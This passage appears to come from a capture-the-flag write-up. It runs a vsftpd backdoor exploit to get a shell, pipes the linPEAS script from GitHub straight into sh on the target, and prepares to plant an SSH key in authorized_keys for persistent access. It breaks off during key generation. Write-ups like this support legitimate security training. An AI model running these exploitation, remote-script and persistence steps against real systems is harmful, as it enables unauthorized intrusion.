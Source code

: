 ...with...

{{< highlight python >}}
...
class ExploitFTP:
        def __init__(self,ip,port=2121):
...
{{< /highlight >}}

...and re-run the script:

{{< highlight bash >}}
$ python3 exploit.py 157.90.235.13
[+] Got Shell!!!
[+] Opening connection to 157.90.235.13 on port 2121: Done
[*] Closed connection to 157.90.235.13 port 2121
[+] Opening connection to 157.90.235.13 on port 6200: Done
[*] Switching to interactive mode
$ 
{{< /highlight >}}

It works now, alright.

Let's get onto the spicy stuff, now that we have a shell, we need to escalate privileges.

As always, <code>PEASS-ng</code> comes to our rescue.

We download the <code>linPEAS</code> script and run it:

{{< highlight bash >}}
$ curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh 
{{< /highlight >}}

<details><summary>Script output:</summary></details>
<br>

If you look closely, linPEAS shows us that we can modify files inside ftpuser/.ssh , so...


...what I did next is, put my newly generated public RSA key on <code>/home/ftpuser/.ssh/authorized_keys</code> so that I could gain access with ssh instead of relying on the vsftpd exploit.

On my local computer:

{{< highlight bash >}}
$ ssh-keygen
Generating public/private rsa key pair.
Enter file in which to save the key (/home/user/.ssh/id_rsa): 
Enter passphrase (empty for no passphrase): 
Enter same passphrase again: 
Your identification has been saved in /home/user/.ssh/id_rsa
Your public key has been saved in /home/user/.ssh/id_rsa.pub
The key fingerprint is:
SHA256:hash user@domain
The key's randomart image is:
+---[RSA 3072]----+
...
+----[SHA256]-----+
